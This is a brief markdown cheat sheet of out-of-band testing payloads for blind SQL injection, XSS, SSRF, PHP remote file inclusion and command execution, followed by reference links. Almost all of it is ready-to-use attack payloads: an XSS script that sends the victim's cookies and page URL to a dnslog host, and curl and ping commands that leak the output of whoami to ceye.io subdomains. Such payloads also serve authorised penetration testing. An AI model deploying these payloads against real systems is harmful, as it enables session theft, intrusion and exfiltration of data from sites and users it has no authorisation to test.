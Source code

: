 #

## Blind sqli

```sql
select load_file('\\\\afanti.xxxx.ceye.io\\aaa');
```

## XSS

Payload1: 
```javascript
><img src=http://xss.xxxx.ceye.io/log/xss001>
```

blind Payload2: 
```javascript
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

## SSRF

```
http://xss.xxxx.ceye.io/payload/phprfi

```

## php RFI

```
http://xss.xxxx.ceye.io/aaa
```

## RCE

linux/unix:

```bash
curl http://haha.xxx.ceye.io/`whoami`
ping `whoami`.xxxx.ceye.io
```

windows:

```bash
ping %USERNAME%.xxx.ceye.io
```

## XXE

see <http://ceye.io/payloads> XXE


## Others
 
see <http://ceye.io/payloads> XXE

## Reference

<https://www.cnblogs.com/rnss/p/11320305.html>
<http://ceye.io/payloads>
<http://foreversong.cn/archives/861>
<https://bbs.ichunqiu.com/thread-22002-1-1.html>
<http://blog.knownsec.com/2016/06/how-to-scan-and-check-vulnerabilities/>
<https://www.freebuf.com/column/184587.html>
<https://blog.51cto.com/tar0cissp/2337779>
<https://github.com/BugScanTeam/DNSLog>